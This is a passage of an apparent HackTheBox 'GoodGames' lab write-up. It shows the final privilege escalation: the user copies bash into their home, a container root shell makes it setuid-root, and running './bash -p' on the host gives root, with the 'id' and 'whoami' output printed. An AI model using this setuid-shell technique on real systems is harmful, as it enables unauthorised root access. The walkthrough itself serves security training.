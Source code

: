 ```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ ls
bash  user.txt

-----------------------------------

root@3a453ab39d3d:/home/augustus chown root:root /home/augustus/bash  
root@3a453ab39d3d:/home/augustus chmod +s /home/augustus/bash

-----------------------------------

augustus@GoodGames:~$ ./bash -p
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.1# whoami
root
```

![](/assets/images/HTB/Goodgames-HackTheBox/flags.webp)

![](/assets/images/HTB/Goodgames-HackTheBox/pwned.webp)

